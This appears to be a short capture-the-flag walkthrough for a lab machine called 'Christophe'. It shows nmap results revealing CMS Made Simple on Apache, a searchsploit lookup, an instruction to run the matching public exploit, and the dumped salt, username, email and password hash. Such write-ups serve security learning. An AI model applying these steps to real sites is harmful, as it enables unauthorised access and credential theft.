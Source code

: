 # SP: Christophe (V1.0.2)

![image](https://user-images.githubusercontent.com/5285547/125982486-dc67b351-b5df-4e28-9973-9de19ff391fe.png)

## Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 14:11:d1:8b:12:0b:78:be:04:4f:74:0d:34:a5:fa:07 (RSA)
|   256 47:69:72:f9:b7:76:33:58:6f:eb:8d:1c:da:9e:b5:c6 (ECDSA)
|_  256 79:08:59:b0:df:ec:13:31:9e:d8:24:54:1d:b6:27:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 551E34ACF2930BF083670FA203420993
|_http-generator: CMS Made Simple - Copyright (C) 2004-2018. All rights reserved.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home - Viva La Resistance!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## CMS Made Simple
![image](https://user-images.githubusercontent.com/5285547/125982400-47f6763c-774a-4277-b48f-ca0770546ab8.png)

```
searchsploit "cms made simple"
```

![image](https://user-images.githubusercontent.com/5285547/125983683-849c0a35-68be-4a6d-a5d2-66a5aadd3b38.png)


Copy the exploit and run it with python and the variables it needs. 

```
[+] Salt for password found: 932129a6bd8545bd
[+] Username found: christophe
[+] Email found: christophe@christophe.local
[+] Password found: 7908b1494f82ed320b288a0e839bfbc5
```


